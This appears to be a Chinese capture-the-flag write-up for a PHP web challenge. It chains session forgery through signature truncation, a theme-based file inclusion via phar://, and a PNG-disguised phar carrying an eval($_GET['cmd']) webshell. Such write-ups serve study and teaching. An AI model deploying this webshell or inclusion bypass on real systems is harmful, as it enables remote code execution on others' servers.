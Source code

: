 ```php
# util.php
function urlsafe_base64_encode($data) {
  return rtrim(str_replace(['+', '/'], ['-', '_'], base64_encode($data)), '=');
}

function urlsafe_base64_decode($data) {
  return base64_decode(str_replace(['-', '_'], ['+', '/'], $data) . str_repeat('=', 3 - (3 + strlen($data)) % 4));
}
```

再看index.php，存在一个可控的文件包含，利用的是session->get()，

而像这样拼接后缀的可以用zip://、phar://绕过；如构造成：phar://xxx/aaa

```php
# index.php

$avatar = $session->isset('avatar') ? 'uploads/' . $session->get('avatar') : 'default.png' ;

/* common.css */
<?php include('common.css'); ?>
/* light/dark.css */
<?php include($session->get('theme', 'light') . '.css'); ?>
```

```php
# session.php
  public function get($key, $defaultValue = null){
    if (!$this->isset($key)) {
      return $defaultValue;
    }
    return $this->data[$key];
  } 
```

先登录，随意上传个文件获取session，可以点击Toggle theme获取一个theme的键值，没有的话也可以后面加上

```json
eyJuYW1lIjoiYWRtaW5fYWRtaW4iLCJhdmF0YXIiOiI5ZWU2NWM3MS5wbmciLCJmbGFzaCI6eyJ0eXBlIjoiaW5mbyIsIm1lc3NhZ2UiOiJZb3VyIGF2YXRhciBoYXMgYmVlbiBzdWNjZXNzZnVsbHkgdXBkYXRlZCEifX0.JDJ5JDEwJHN5M3hRaVJjNlh6WnRvd3ovLi5MQXVTakRIOC9TUE0zNmZWYlJvVzcvTEo5NzRXRlBCRkZX
```

点号前为json数据，其后为签名；照上述所说，超出72的部分会被阶段，那么只需要对前面的数据进行修改再和签名拼接起来就可以成功通过验证

将点号前的部分base64解一下：

```
{"name":"admin_admin","avatar":"3c8a36d0.png","flash":{"type":"info","message":"Your avatar has been successfully updated!"}}
```

然后就是生成phar，再利用这个进行包含：（这里要绕过检测，加上png的文件头）

```php
<?php
$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->addFromString('exp.css', '<?php eval($_GET["cmd"]);?>');
$phar->setStub(chr(0x89).chr(0x50).chr(0x4e).chr(0x47).chr(0x0D).chr(0x0A).chr(0x1A).chr(0x0A).chr(0x00).chr(0x00).chr(0x00).chr(0x0D).chr(0x49).chr(0x48).chr(0x44).chr(0x52).chr(0x00).chr(0x00).chr(0x01).chr(0x00).chr(0x00).chr(0x00).chr(0x01).chr(0x00). '<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
